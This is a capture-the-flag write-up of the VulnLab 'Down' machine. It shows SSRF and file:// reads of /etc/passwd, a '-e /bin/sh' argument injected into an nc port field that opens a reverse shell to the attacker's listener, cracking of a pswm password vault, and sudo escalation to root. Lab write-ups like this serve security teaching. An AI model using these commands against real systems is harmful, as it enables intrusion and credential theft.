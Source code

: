 ```yaml
---
title: VulnLab -- Down Writeup
date: 2025-03-30 00:00:00 +0800
categories: [linux machine]
tags: [web exploitaion,cve]
image:
    path: images/down-banner.png
---
```

# Down

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Down** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/down-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80 --min-rate=1000 10.10.80.76
```

![image.png](../images/down.png)

Now let’s go and enumerate the website running on port 80

![image.png](../images/down%201.png)

The web application has a simple functionality that check if the website is down or not.

Now let’s open a http server and try to request ourselves

```bash
python3 -m http.server 80
```

![image.png](../images/down%202.png)

Now let’s enter our host in the application

```bash
http://10.8.5.233
```

![image.png](../images/down%203.png)

Now let’s see if we go a request!

![image.png](../images/down%204.png)

and we Did!

Now let’s try Server-Side Request Forgery (SSRF)

```bash
http://127.0.0.1
```

![image.png](../images/down%205.png)

Okay nice we got a response back.

Now let’s try to fuzz the localhost ports using FFUF

First let us create a port wordlist

```bash
for i in {1..65535}; do echo $i >> ports.txt; done
```

![image.png](../images/down%206.png)

Now let’s use FFUF

```bash
ffuf -u "http://10.10.80.76/index.php" -X POST --data "url=http://127.0.0.1:FUZZ" -w ports.txt -fw 131
```

![image.png](../images/down%207.png)

Unfortunately no luck! 😓

Let’s go back to our website and try to add the file wrapper after the valid URL

```bash
http://10.8.5.233/ file:///etc/passwd
```

![image.png](../images/down%208.png)

and we did it we have a Local File Inclusion so let’s go and read the source code of the application.

```bash
http://10.8.5.233/ file:///var/www/html/index.php
```

![image.png](../images/down%209.png)

> Amazing! we got the application source code.
> 

Now let’s start analysis.

```php
if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">'; 
```

![image.png](../images/down%2010.png)

> Notice that there is an advanced feature named expertmode this allow us to execute nc in the server terminal
> 

now let’s try to abuse it

First go to the website and enable the expert mode through the expertmode GET parameter.

```bash
http://10.10.80.76/index.php?expertmode=tcp
```

![image.png](../images/down%2011.png)

notice that the design changed!

Now open a listener on your machine 

```bash
nc -nlvp 1337
```

![image.png](../images/down%2012.png)

no go back to the website and enter you IP in the IP filed and you port in the port tab and intercept the request.

![image.png](../images/down%2013.png)

Now let’s intercept the request.

![image.png](../images/down%2014.png)

now in the port parameter append the following

```bash
-e /bin/sh
```

![image.png](../images/down%2015.png)

That will till the nc to execute the bash to us.

now send and go back to our listener.

![image.png](../images/down%2016.png)

now let’s stable the shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![image.png](../images/down%2017.png)

now press CTRL + Z

![image.png](../images/down%2018.png)

now let’s enter this in the terminal

```python
stty raw -echo;fg
```

![image.png](../images/down%2019.png)

last enter this command

```python
export TERM=xterm
```

![image.png](../images/down%2020.png)

now we got full stable shell

also we got the flag yeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeah!

![image.png](../images/down%2021.png)

now let’s try to get root privilege

navigate to the local user directory

```python
cd /home/aleks/.local/share/pswm
```

![image.png](../images/down%2022.png)

Notice that we found the user password manager so let’s use pswm-decryptor to decrypt it.

```python
cat pswm
```

![image.png](../images/down%2023.png)

now let’s run the decryptor

```python
python3 pswm-decrypt.py -f pswm -w /usr/share/wordlists/rockyou.txt 
```

![image.png](../images/down%2024.png)

notice that we decrypted the passwords and got the password for the user Aleks.

Now let’s login via SSH

```python
ssh aleks@10.10.80.76
```

![image.png](../images/down%2025.png)

and we logged it! 

Now let’s try to see our privileges on the machine

```python
sudo -l
```

![image.png](../images/down%2026.png)

notice that we can run everything as root!

```python
sudo su
```

![image.png](d../images/own%2027.png)

now let’s cd to the root directory and see the flag!

```python
cd /root;ls -las
```

![image.png](../images/down%2028.png)

Amazing I did it!

![image.png](../images/down%2029.png)

That’s it for the **Down** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX